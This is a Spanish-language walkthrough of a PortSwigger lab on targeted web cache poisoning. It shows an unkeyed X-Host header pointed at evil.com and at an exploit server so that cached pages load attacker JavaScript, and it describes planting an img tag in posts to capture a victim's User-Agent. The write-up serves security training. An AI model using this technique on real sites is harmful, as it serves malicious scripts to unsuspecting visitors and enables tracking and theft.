









# Targeted web cache poisoning using an unknown header



## LAB

En nuestra solicitud podemos observar que el servidor manera la cache.



Usando la extensión del burpsuite encontraremos un parámetro que es `x-host`. 



Al introducir este encabezado podemos ver que este es reflejado en el cuerpo del la solicitud de respuesta del servidor.

```c
X-Host: evil.com
```



Teniendo la siguiente ruta:

```c
//evil.com/resources/js/tracking.js
```

Por lo que podemos crear una ruta `/resources/js/tracking.js` en nuestro exploit server con código javascript malicioso.



```c
GET / HTTP/1.1
Host: 0a65000404e91f5480f0033600a90019.h1-web-security-academy.net
Cookie: session=6mWCRE09je1yNjC1e6iMOJrEjz6MN5C7
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Priority: u=0, i
Te: trailers
X-Host: exploit-0aba0007046d1f8a80bf028401cc00d9.exploit-server.net
Connection: keep-alive

```

Al terminar de configurar nuestro exploit server, podemos enviar nuestra solicitud y así poder explotar. Pero en la solicitud podemos observar un encabezado `Vary` el cual "determina como hacer coincidir los encabezados de las solicitudes futuras para decidir si se puede utilizar una respuesta almacenada en caché en lugar de solicitar una nueva desde el servidor de origen."

- https://developer.mozilla.org/es/docs/Web/HTTP/Reference/Headers/Vary



Por lo que para explotar tenemos que obtener el `User-Agent` de un usuario victima. Por ello en los posts insertamos una etiqueta de img llamando a nuestro exploit server, para obtener la solicitud en nuestro exploit server.



Luego de esperar unos minutos, vemos que se hizo una solicitud con el `User-Agent` de la victima. 



Ahora podemos enviar nuestra solicitud con el `User-Agent` de la victima y luego de unos minutos el usuario victima realizar una petición a nuestro recurso javascript. 



